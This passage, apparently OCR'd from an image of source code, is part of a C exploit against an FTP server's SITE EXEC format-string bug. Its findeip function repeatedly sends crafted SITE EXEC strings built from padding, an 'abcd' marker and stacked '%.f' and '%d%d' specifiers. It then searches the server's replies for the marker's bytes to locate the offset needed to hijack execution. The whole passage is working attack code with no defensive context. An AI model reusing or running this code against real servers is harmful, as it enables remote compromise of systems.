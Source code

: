         if(strncmp(recvbuf, "200-", 4))
            return -1;

        if(strncmp(recvbuf+4, "0x", 2))
            return -1;

        repl;

        return 0;
    }

    int findeip(eipoff, align)
    int eipoff, align;
    {
        int i, j, off;
        char *p1;
        char eip1[10], eip2[10];

        for (i=eipoff;;i+=8)
        {
            fprintf(stderr, "at offset %d\n", i);
            strcpy(sendbuf, "SITE EXEC ");

            for (j=0;j<align;j++) strcat(sendbuf, "a");
            strcat(sendbuf, "abcd");

            for (j=0;j<eipoff/8;j++) strcat(sendbuf, "%%.f");
            for (j=0;j<(i-eipoff)/8;j++) strcat(sendbuf, "%%d%%d");
            strcat(sendbuf, "|%%.8x|%%.8x");

            if (command(sendbuf) < 0)
                return -1;

            repl;

            if (!(p1 = strchr(recvbuf, '|')))
                return -1;

            strncpy(eip1, p1+1, 8);
            strncpy(eip2, p1+10, 8);

            eip1[8] = eip2[8] = '\0';

            if (!(strcmp(eip1, "64636261")))
            {
                off = i;
                break;
            }

            if (!(strcmp(eip2, "64636261")))
            {
                off = i + 4;
                break;
            }

            repl;
        }
